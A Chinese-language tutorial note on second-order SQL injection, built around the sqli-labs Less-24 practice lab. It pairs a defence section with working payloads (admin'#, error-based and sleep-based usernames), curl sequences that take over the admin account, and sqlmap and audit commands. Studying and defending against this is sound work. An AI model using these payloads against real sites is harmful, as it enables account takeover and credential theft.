




# 04-二次注入

> 所属知识库：[[SQL总目录|SQL 总目录]] / mysql 结构系列
>
> 上级章节衔接：[[../01-整数型注入|整数型注入]] 讲"输入即执行"，本章讲**输入点与执行点分离**的存储型注入；对比 [[../03-报错注入|报错注入]] 的单次触发模式
>
> sqli-labs 对照：less-24（Second Order Injections）
>
> 配套工具：[[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]

## 一、原理：存储型转义的两面性

二次注入的核心矛盾：**写入时转义了引号，但存进数据库的是"原文"；读取引用时直接拼接，防护失效**。

漏洞代码两段式：

```php
// 第一阶段: 注册用户名 —— 有防护（转义），但只影响本次 SQL 语法，不影响存储内容
$username = $_POST['username'];
$escaped = addslashes($username);          // admin'# → admin\'#
$sql = "INSERT INTO users(username, password) VALUES('$escaped', '$pass')";
// 数据库里实际存的 username 是:  admin'#   ← 反斜杠不会存进去！

// 第二阶段: 修改密码 —— 从库中取出用户名直接拼 SQL，无任何防护
$row = mysql_fetch_assoc(mysql_query("SELECT username FROM users WHERE id=$_SESSION[id]"));
$username = $row['username'];              // admin'#
$newpass = $_POST['password'];
$sql = "UPDATE users SET password='$newpass' WHERE username='$username'";
// 实际执行: UPDATE users SET password='xxx' WHERE username='admin'#'
//                                                          ^^^^^^^^^^ 注释掉结尾引号
```

关键认知表：

| 环节 | addslashes 是否有效 |
|------|--------------------|
| 写入（INSERT） | 有效——引号被转义，无法逃逸字符串 |
| 存储 | 无关——**存的是未转义的原文** |
| 读取再拼接 | 无效——取出的原文带着 `'`、`#` 直接进入新 SQL |

addslashes 防的是"这一次"的语句破坏，防不了"下一次"的拼接。**转义是语句级的临时手段，不是数据净化。**

mysql_real_escape_string 同样如此——它比 addslashes 多处理了控制字符，但本质仍是"语句级转义"，只要第二段拼接时不再处理，结果一样。若站点是 GBK 编码还可能引入宽字节问题（详见综合训练章节），但那是另一条攻击线。

### 转义的生命周期示意



## 二、触发条件与拼接形态分析

### 触发条件

1. **写入端**有转义防护但使用拼接（addslashes / mysql_real_escape_string）
2. 存储内容被**原样落库**（转义符不随数据存储）
3. 存在**第二段代码**从库中取出该数据并再次拼接 SQL，且这一段没有防护
4. 两段代码分属不同文件、不同作者、不同时期——防护不一致正是裂缝所在

### 第二阶段 SQL 拼接形态

以 less-24 的 pass_change.php 为例：

```php
$username = $_SESSION['username'];         // 来自登录时从库里读出的原文 admin'#
$update = "UPDATE users SET password='$pass' WHERE username='$username' AND password='$curr_pass'";
mysql_query($update);
```

注册名 `admin'#` 拼进去之后：

```sql
UPDATE users SET password='hacked123' WHERE username='admin'#' AND password='123456'
```

`'` 提前闭合字符串，`#` 注释掉尾部 `' AND password='123456'`，最终效果：

```sql
UPDATE users SET password='hacked123' WHERE username='admin'
```

**改的是真实 admin 的密码**——攻击者从未接触过 admin 账号的任何凭证，却完成了接管。

### 为什么单看代码难发现

| 原因 | 说明 |
|------|------|
| 单文件视角都"正确" | 注册页有转义，改密页语法合法，逐文件审计每一段都没问题 |
| 污点跨会话传递 | 输入在请求 A 进入，执行在请求 B 发生，传统"跟一个请求"的审计思路失效 |
| 数据库成为 payload 中转站 | 审计工具追踪参数流向时在数据库处断链 |
| 触发依赖业务动作 | 只有走到"取出该用户名并拼接"的功能才引爆，平时毫无异常 |

审计口诀：**先 escape 后拼接**——看到某输入经过 addslashes 入库，又在其他文件被取出后直接放进 SQL 字符串，就是二次注入候选。

### 与一次注入的对比

| 对比项 | 一次注入 | 二次注入 |
|--------|---------|---------|
| 输入与执行 | 同一请求内直达 SQL | 跨请求，经数据库中转 |
| 防护绕过方式 | 编码/大小写/内联注释等变形 | 不绕防护，等防护自己失效 |
| WAF 可见性 | payload 出现在请求里，可被匹配 | 触发请求完全合法，无特征 |
| 典型位置 | 搜索框、id 参数、登录框 | 注册用户名、个人资料字段、地址簿 |
| 利用节奏 | 一次会话内连续发 payload | 注册→等待/触发→收割，分步进行 |
| 对应靶场 | less-1 至 less-20 系列 | less-24 |

一句话总结：一次注入是"骗过门卫"，二次注入是"把武器合法寄存进去，改天凭条取出来用"。

## 三、curl 两阶段实操（less-24）

关卡结构：login.php（登录）/ login_create.php（注册）/ pass_change.php（改密）。约定地址 `http://127.0.0.1/sqli-labs/Less-24/`。表单字段名以页面 HTML 为准，下文按常见版本书写；注册用户名中的特殊字符需 URL 编码：`admin'#` → `admin%27%23`。

### 阶段一：注册恶意用户名

```bash
# 注册 admin'# / 密码 123456
curl -s "http://127.0.0.1/sqli-labs/Less-24/login_create.php" \
     -d "reg_username=admin%27%23&reg_password=123456&confirm_password=123456&submit=register"

# 若字段名为 regname/passwd 的变体:
# curl -s "...login_create.php" -d "regname=admin%27%23&passwd=123456&submit=register"
```

注册请求本身**不会报错也不会有任何异常**——addslashes 让 INSERT 安全执行，恶意内容安静地躺在库里。这正是它隐蔽的原因。

落库验证（有数据库权限时）：

```sql
SELECT username FROM users WHERE username LIKE '%#%';
-- 输出: admin'#   ← 原文入库（无反斜杠），二次注入条件成立
```

### 中间步：登录恶意账号

登录查询同样有转义防护，`admin'#` 作为普通字符串匹配自身，正常通过：

```bash
# 登录并保存会话
curl -s -c jar.txt "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     -d "login_username=admin%27%23&login_password=123456&submit=login"
```

登录成功后，session 中绑定的 username 就是库里那份原文 `admin'#`——payload 从这里开始跟随会话流动。

### 阶段二：修改密码处触发

```bash
# 改密 —— 实际改掉真实 admin 的密码
curl -s -b jar.txt "http://127.0.0.1/sqli-labs/Less-24/pass_change.php" \
     -d "current_password=123456&password=hacked123&re_password=hacked123&submit=change"
```

此时执行的 SQL 已在第二节分析过：WHERE 被 `admin'#` 改写为只命中真实 admin。页面提示"Password successfully updated"，看起来一切正常——**受害者与攻击者在界面上都看不到任何异常**。

### 收尾：接管账号

```bash
# 用真实 admin + 新密码登录
curl -s "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     -d "login_username=admin&login_password=hacked123&submit=login"
# 登录成功 → 账号接管完成
```

### 全流程图



两阶段之间没有任何一次"注入失败"的迹象，所有请求都是合法业务操作——这就是二次注入难以被 WAF 和日志告警捕捉的原因。

### 注册前的侦察

正式打之前先做两个低成本探测：

```bash
# 1. 确认目标账号存在: 用 admin 随便配个密码登录, 看失败文案
curl -s "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     -d "login_username=admin&login_password=wrongpass&submit=login"
# 若提示 Username 不存在 vs 密码错误, 可区分账号是否存在（枚举防护另议）

# 2. 确认注册功能开放: 直接注册一个普通测试号
curl -s "http://127.0.0.1/sqli-labs/Less-24/login_create.php" \
     -d "reg_username=testprobe&reg_password=123456&confirm_password=123456&submit=register"
```

### INSERT 多列场景的报错变体

若第二阶段是 INSERT 拼接（如资料表新增行），可用列数溢出触发报错带出数据：

```
注册用户名: ',(select group_concat(username,0x3a,password) from users))#
```

拼接形态：

```sql
INSERT INTO profiles(user, note) VALUES('',(select group_concat(...) from users))#', 'xxx')
```

报错文本中直接回显 users 表内容。此变体要求注入点在 INSERT 的值位且报错有出口。

## 四、通用 payload 库

注册阶段可入库的恶意用户名（取决于第二阶段的 SQL 形态）：

| 注册值 | 第二阶段 SQL 形态 | 效果 |
|--------|------------------|------|
| `admin'#` | `UPDATE ... WHERE username='$name'` | 改密命中 admin（less-24） |
| `admin'-- -` | 同上 | 同上（`--` 注释） |
| `' or '1'='1` | `SELECT ... WHERE username='$name'` | 匹配全部用户 |
| `',(select group_concat(...))#` | INSERT 多列场景 | 报错/联合带出数据 |
| `1' and updatexml(1,concat(0x7e,version()),1)#` | 任意拼接处 | 直接报错回显 |

第二阶段若无报错回显，可用时间盲注确认存在性：

```
注册: admin' and sleep(5)#
触发: 任意引用该用户名的操作响应延迟约 5 秒即坐实
```

### 探测第二阶段形态的方法

不确定触发点的 SQL 形态时，注册多个探针用户名分别观察：

| 探针 | 目的 |
|------|------|
| `admin'` | 是否存在引号逃逸（改密时报错则确认拼接） |
| `admin'#` 与 `admin'-- -` | 确认注释符类型 |
| `admin' and '1'='2` | 布尔差异定位 WHERE 结构 |

## 五、sqlmap 与自动化现状

sqlmap 原生不擅长二次注入（写入与触发分离），可用 `--second-url` 指定触发点：

```bash
sqlmap -u "http://目标/register" \
       --data="username=payload*&password=123" \
       --second-url="http://目标/profile" --batch
```

但实际操作中 payload 的注册时机、会话绑定都要手工配合，多数情况下**手注效率高于 sqlmap**。curl 三连（注册→登录→触发）本身就是最顺手的"脚本"。

### 源码审计快筛

有源码时按特征 grep：

```bash
# 特征一: 写入处有防护（转义后拼接）
rg -n "addslashes|mysql_real_escape_string" --type php | rg -i "insert"

# 特征二: 读取结果直接拼进 SQL（二次触发点）
rg -n '\$row\[.?username|\$_SESSION\[.username' --type php | rg -i "update|select.*from.*where"
```

两处命中且不在同一文件，基本可以定性。审计时把"数据从哪来、到哪去"画成跨文件的数据流图，比逐行看代码高效得多：



## 六、例题思路表

| 题目特征 | 判断 | 主打打法 |
|---------|------|---------|
| 注册页限制少 + 有改密功能 | 经典二次注入结构 | `admin'#` 注册→改密接管（less-24） |
| 用户名可含引号但注入无反应 | 写入被转义 | 转入二阶思路，找取数拼接点 |
| 页面回显注册的用户名 | 回显点可能也是拼接点 | 报错类用户名探测 |
| 题目要求"拿到 admin"且无任何注入回显 | 八成是二次注入 | 两阶段 curl 流程 |

### 解题决策流程



## 六-附、落库内容验证

不确定转义是否入库时，直接查库确认（靶场有数据库权限）：

```sql
-- 注册 admin'# 后在数据库中验证
SELECT username FROM users WHERE username LIKE '%#%';
-- 输出: admin'#   ← 原文入库（没有反斜杠），二次注入条件成立
-- 若输出: admin\'# 则说明连转义符一起存储了（少见），payload 要相应调整
```

## 七、坑位速查

| 坑 | 说明 |
|----|------|
| 忘记 URL 编码 `'#` | `-d` 里裸写 `admin'#` 时 shell 不报错但服务器收到原样字符，务必 `%27%23` |
| 会话没保存 | 阶段二必须带阶段一登录的 Cookie（`-c` 存、`-b` 取），否则触发不到 |
| 字段名想当然 | 不同版本注册表单字段不同，先看 HTML 或用错误响应试探 |
| 以为反斜杠入库了 | addslashes 的 `\` 只作用于语句层，落库必是原文 |
| 目标不存在 admin 账号 | less-24 库里预置 admin；真实环境先确认目标账号存在再打 |
| 改密页要求旧密码 | 当前密码填自己注册时的 123456 即可通过校验（校验发生在拼接之前） |
| 只盯改密一个触发点 | 任何"取出用户名拼 SQL"的功能都是潜在触发点：资料页、订单页、导出功能等 |
| 注册名太长被截断 | 目标列若为 varchar(N)，payload 超长部分被截断，注释符可能丢失导致失败 |

### 触发点不止改密一处

less-24 用改密页演示，但同一恶意用户名可以在任何引用它的功能里引爆：

| 功能 | 拼接形态 | 引爆效果 |
|------|---------|---------|
| 修改密码 | `UPDATE ... WHERE username='$name'` | 接管账号 |
| 个人资料展示 | `SELECT * FROM profiles WHERE user='$name'` | 报错回显数据 |
| 管理员查看用户列表 | 后台拼接查询 | 打后台会话时触发 |
| 数据导出 | 导出语句拼接 | 报错或带出数据 |

渗透测试中注册一次探针账号后，应当把站点里所有与自身身份相关的功能都过一遍。

### 会话绑定细节

阶段二能否触发，取决于 session 里存的是"原文用户名"还是"用户 id"：

- 存 username 原文 → payload 随会话直达拼接点（less-24 情形）
- 存用户 id → 触发点从库里按 id 取出原文再拼接，同样可触发
- 两端都参数化 → 无解，属正常站点

判断方法：登录后观察请求里是否出现用户名字符串；或直接看 pass_change.php 是否引用 `$_SESSION['username']`。

## 八、自动化：sqlinject.py 工具

二次注入的写入与触发分离，sqlinject.py 的五步链面向单请求注入点，不直接覆盖二阶流程，但仍可用于**触发点的快速验证**与常规注入点排查：

```bash
cd ~/hackingtools/web/injection

# 手工完成两阶段后, 用 --custom 对触发页做单发验证
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-24/pass_change.php" \
               -d "current_password=123456&password=x&re_password=x" \
               --custom "' and updatexml(1,concat(0x7e,database()),1)#"

# 同站点其他常规注入点仍走标准五步
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-24/login.php" -d "uname=1&passwd=1"
```

二阶主流程建议保留本章第三节的三条 curl 并写成小脚本固化；参数细节见 [[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]。

## 九、防御

| 措施 | 说明 |
|------|------|
| 参数化查询全程覆盖 | **写入和读取两端都用 prepared statement**，这是唯一根治方案 |
| 不要依赖转义做净化 | addslashes/escape 只解决当前语句语法问题，不是数据消毒 |
| 白名单校验用户名格式 | 注册时就拒绝含 `'` `"` `#` `-` 的用户名（业务上通常合理） |
| ORM 的参数绑定 | 注意 ORM 原生查询/raw query 仍是拼接，别混用 |
| 密码修改按主键定位 | `UPDATE users SET password=? WHERE id=?` 用不可变主键而非 username |

```php
// 防御正例: 两端全部参数化，转义不再出现在代码里
$stmt = $pdo->prepare("INSERT INTO users(username, password) VALUES(?, ?)");
$stmt->execute([$username, $hash]);

$stmt2 = $pdo->prepare("UPDATE users SET password = ? WHERE id = ?");
$stmt2->execute([$new_hash, $_SESSION['uid']]);   // 按 id 定位，username 再恶意也无害
```

---

**返回** [[SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]] · 工具 [[../../../../../hackingtools/web/README|hackingtools/web 工具箱]] · 相关 [[../01-整数型注入|整数型注入]] [[../03-报错注入|报错注入]]
